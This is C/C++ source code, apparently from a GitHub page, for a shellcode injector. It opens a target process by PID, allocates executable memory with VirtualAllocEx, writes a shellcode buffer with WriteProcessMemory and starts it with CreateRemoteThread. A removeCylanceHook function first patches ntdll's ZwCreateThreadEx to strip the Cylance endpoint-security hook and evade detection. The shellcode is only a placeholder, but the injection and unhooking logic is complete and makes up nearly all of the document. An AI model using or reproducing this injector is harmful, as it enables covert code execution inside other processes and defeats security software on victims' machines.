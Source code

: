 ```c
//demo
#include <iostream>
#include <windows.h>
unsigned char buf[] =
"SHELLCODE_GOES_HERE";
struct syscall_table {
    int osVersion;
};
// Remove Cylance hook from DLL export
void removeCylanceHook(const char *dll, const char *apiName, char code) {
    DWORD old, newOld;
    void *procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char *)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
}

int main(int argc, char **argv)
{
    if (argc != 2) {
        printf("Usage: %s PID\n", argv[0]);
        return 2;
    }
    DWORD processID = atoi(argv[1]);
    HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, false, processID);
    if (proc == INVALID_HANDLE_VALUE) {
        printf("[!] Error: Could not open target process: %d\n", processID);
        return 1;
    }
    printf("[*] Opened target process %d\n", processID);
    printf("[*] Allocating memory in target process with VirtualAllocEx\n");
    void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (alloc == (void*)0) {
        printf("[!] Error: Could not allocate memory in target process\n");
        return 1;
    }
    printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
    printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
    if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
        printf("[!] Error: Could not write to target process memory\n");
        return 1;
    }
    printf("[*] WriteProcessMemory successful\n");

    // Remove the NTDLL.DLL hook added by userland DLL
    removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
    printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
    HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
    printf("[*] Success :D\n");
}
```


[go/shellcode_inject/virtual>>]: generate
